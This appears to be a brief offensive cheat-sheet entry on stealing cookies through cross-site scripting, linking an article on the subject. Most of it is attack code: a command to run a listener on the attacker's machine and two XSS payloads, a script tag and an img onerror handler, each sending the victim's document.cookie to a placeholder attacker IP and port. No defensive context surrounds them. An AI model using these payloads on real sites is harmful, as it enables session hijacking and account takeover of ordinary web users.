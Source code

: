 # Cookies
- <https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e>

```
# Attacker:
python -m http.server [Attacker Port]

# Target:
<script>var i=new Image(); i.src="http://[Attacker IP]:[Attacker Port]/?cookie="+btoa(document.cookie);</script>
```


```
<img src=x onerror=fetch('http://[Attacker IP]:[Attacker Port]	/?c='+document.cookie);>
```
